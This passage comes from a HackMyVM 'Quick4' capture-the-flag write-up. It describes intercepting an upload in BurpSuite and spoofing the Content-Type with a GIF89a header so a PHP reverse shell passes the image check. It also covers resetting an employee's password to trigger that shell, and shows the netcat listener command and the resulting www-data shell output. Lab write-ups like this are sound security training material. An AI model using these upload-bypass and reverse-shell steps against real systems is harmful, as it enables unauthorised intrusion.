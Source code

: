 Now we have to start BurpSuite and setup the tool to catch the requests.

![image](/assets/img/WriteUp/HackMyVM/Quick4/Pasted image 20240212212713.png){: width="700" height="400" }

To configure BurpSuite we should
1. Click on the `Proxy` tab
2. Click on the `Intercept` tab
3. Click on the button `Intercept on`, to turn the intercept mode on.

![image](/assets/img/WriteUp/HackMyVM/Quick4/Pasted image 20240212212641.png){: width="700" height="400" }

Now we have to be sure that the PHP reverse shell is selected and hit only the upload button. The request will be intercepted by BurpSuite.

![image](/assets/img/WriteUp/HackMyVM/Quick4/Pasted image 20240212212814.png){: width="700" height="400" }

We can adjust the content to bypass the image check with the following piece of code. We should adjust the request and forward the request after editing it.

```
Content-Type: application/x-php

GIF89a;

<?php
```
There is a password reset function to reset the passwords for employees. This will make our life as attacker easier so we can compromise other accounts as well.
In this case we have uploaded a PHP webshell to `Nick Greenhorn`. So if we change his passowrd and logon to him we might be able to get a reverse shell.

![image](/assets/img/WriteUp/HackMyVM/Quick4/Pasted image 20240212212908.png){: width="700" height="400" }

As soon as we have reset the password for the user, we should start a netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Quick4]
└─$ rlwrap nc -lvp 1234
listening on [any] 1234 ...

```

Now we have to logon as Nick Greenhorn to the employees portal. We know the email address since we have found it in the customer portal. And the password has been reset by us, so we can logon now.

![image](/assets/img/WriteUp/HackMyVM/Quick4/Pasted image 20240212213040.png){: width="700" height="400" }

After the logon to the portal we can see that the dasboard is shown in the browser. The profile image is not present but it is still loading.
![image](/assets/img/WriteUp/HackMyVM/Quick4/Pasted image 20240212213059.png){: width="700" height="400" }

This is a good indicator that our PHP reverse shell is working.

------
## Initial access
We should check our netcat listener to see if we have a connection received from the target.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Quick4]
└─$ rlwrap nc -lvp 1234
listening on [any] 1234 ...
10.0.2.42: inverse host lookup failed: Host name lookup failure
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.42] 37232
Linux quick4 5.15.0-92-generic #102-Ubuntu SMP Wed Jan 10 09:33:48 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 20:30:41 up 23 min,  0 users,  load average: 0.14, 0.11, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```